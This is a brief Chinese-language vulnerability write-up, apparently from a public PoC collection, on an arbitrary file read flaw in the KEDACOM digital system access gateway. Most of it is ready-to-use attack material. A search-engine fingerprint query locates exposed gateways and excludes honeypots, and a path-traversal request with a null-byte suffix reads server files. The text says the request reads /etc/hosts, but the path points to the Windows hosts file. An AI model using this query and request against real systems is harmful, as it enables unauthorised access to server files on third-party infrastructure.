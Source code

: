 # KEDACOM数字系统接入网关 任意文件读取漏洞

# KEDACOM数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

```
KEDACOM 数字系统接入网关
```

## 网络测绘

```
(app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)
```

## 漏洞复现

登录页面如下

![](/images/202202162300072.png)

使用POC读取 /etc/hosts

```plain
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```

![](/images/202202162300019.png)

